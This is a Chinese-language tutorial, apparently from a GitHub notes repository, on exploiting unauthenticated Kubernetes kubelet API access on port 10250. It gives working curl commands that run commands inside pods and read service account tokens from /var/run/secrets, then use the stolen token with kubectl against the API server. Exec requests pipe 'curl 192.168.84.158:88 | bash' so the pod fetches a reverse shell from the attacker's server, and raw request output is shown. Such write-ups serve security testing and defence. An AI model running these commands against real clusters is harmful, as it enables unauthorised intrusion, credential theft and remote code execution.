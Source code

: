 ## 1. 攻击k8s的10250端口

### 1.1. 原理

10250端口是 kubelet API 的 HTTPS 端口。默认情况下，kubelet 监听的 10250 端口没有进行任何认证鉴权，导致通过这个端口可以对 kubelet 节点上运行的 pod 进行任何操作。

kubelet: 运行在每一个 Node 节点上的客户端，负责 Pod 对应的容器创建，启动和停止等任务，同时和Master节点进行通信，实现集群管理的基本功能。

### 1.2. 利用过程

#### 1.2.1. 获得 token

首先需要确定 node 是否存在未授权问题。访问`https://ip:10250/pods`，出现如下数据表示可以利用：

![](_v_images/20200503154244202_11318.png)

执行`curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"`即可在对应的容器里执行命令：

![](_v_images/20200503164341653_25229.png)

现在问题变成了如何确定 namespace、pod_name、container_name。访问`https://ip:10250/pods`并查找 selfLink，会有一个类似【/api/v1/namespaces/test1/pods/web-docker-594dd9789f-fc9d9】的值，其中 namespaces 就是后面的 test1，同理 pods 就是后面的 web-docker-594dd9789f-fc9d9。如果执行失败，可以看看 phase 的状态是不是 fail，是的话就换一个 phase 是 running 的再试试。

![](_v_images/20200503164353941_16403.png)

token 默认会保存在通过命令 pod 里的 /var/run/secrets/kubernetes.io/serviceaccount/token。通过`curl -k -XPOST "https://ip:10250/run/cattle-system/cattle-cluster-agent-549fc45d6f-lf7hp/cluster-register" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"`获得 token

![](_v_images/20200503164405340_5904.png)

如果不在这个位置，可用 mount 命令来查找：

![](_v_images/20200503164638364_12249.png)

#### 1.2.2. 获得 master 访问权

接下来可以尝试获得master（api server）的访问权限。

默认情况下，api server开发的端口为6443，所以扫描同个网段开放6443的主机来挨个尝试。除了这种方法，还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：

![](_v_images/20200505204844463_7258.png)

执行命令`kubectl --insecure-skip-tls-verify=true  --server="https://ip:6443"  --token="eyJhbG......"  get secrets --all-namespaces -o json`，如果提示【error: You must be logged in to the server (Unauthorized)】就是token和api server不匹配。

![](_v_images/20200503170140189_1777.png)

#### 1.2.3. 获得node里pod的shell

入侵者在本机搭建web服务，通过在node上的pod里执行反弹语句来获得node的shell。192.168.84.158:88是入侵者的web服务，写了反弹shell：

![](_v_images/20200505182316365_15605.png)

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"`  

不行就试试下面的：  

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/sh&command=-c&command=curl+192.168.84.158:88+|+sh&input=1&output=1&tty=1"`

![](_v_images/20200505182330370_13872.png)
```bash
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
* 	subject: CN=192.168.4.68@1544518989
* 	start date: 12月 11 09:03:09 2018 GMT
* 	expire date: 12月 11 09:03:09 2019 GMT
* 	common name: 192.168.4.68@1544518989
* 	issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt  //查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]# 
```

执行如下语句查看命令执行结果
```
[root@localhost ~]# docker run -it --rm  joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

![](_v_images/20200505182349490_27885.png)

此时我们是在node的pod里，在反弹的shell里查看master的内部ip

![](_v_images/20200505182403040_27930.png)

尝试连接k8s master地址
```bash
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```  


参考：
https://www.lijiaocn.com/%E9%97%AE%E9%A2%98/2018/07/20/kubernetes-docker-cpu-high.html
https://segmentfault.com/a/1190000002937665
http://blog.allen-mo.com/2019/04/29/k8s-security-serviceaccount/
https://stackoverflow.com/questions/51176283/how-to-create-pod-from-rest-api
https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster/
http://carnal0wnage.attackresearch.com/2019/01/kubernetes-unauth-kublet-api-10250.html
https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
